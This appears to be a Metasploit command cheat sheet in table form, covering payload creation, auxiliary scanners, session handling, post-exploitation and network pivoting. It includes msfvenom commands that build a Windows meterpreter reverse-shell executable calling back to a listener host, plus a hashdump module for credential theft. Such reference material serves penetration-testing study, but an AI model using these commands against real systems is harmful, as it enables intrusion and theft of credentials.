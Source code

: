 
---

### Payload Management
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `generate`      | Creates a payload.                                                                               | `generate -t exe -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444` |
| `msfvenom`      | Used to craft custom payloads outside of msfconsole.                                             | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe > shell.exe` |

---

### Auxiliary Modules
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `use`           | Select an auxiliary module.                                                                      | `use auxiliary/scanner/ftp/ftp_login` |
| `run`           | Execute the auxiliary module.                                                                    | `run`                                 |

---

### Managing Exploits and Sessions
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `jobs`          | Lists running jobs (background tasks).                                                           | `jobs`                                |
| `kill`          | Terminates a specific job.                                                                       | `kill 1`                              |
| `sessions`      | Interact with active sessions.                                                                   | `sessions -i 1`                       |
| `background`    | Backgrounds an active session.                                                                   | `background`                          |

---

### Post-Exploitation
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `use`           | Select a post-exploitation module.                                                               | `use post/windows/gather/hashdump`    |
| `set`           | Configure options for the module.                                                                | `set SESSION 1`                       |
| `run`           | Execute the post-exploitation module.                                                            | `run`                                 |

---

### Networking
| Command         | Description                                                                                      | Example                               |
|------------------|--------------------------------------------------------------------------------------------------|---------------------------------------|
| `route`         | Manage routing for pivoting.                                                                     | `route add 192.168.2.0/24 1`          |
| `arp`           | View or modify the ARP cache.                                                                    | `arp -a`                              |

---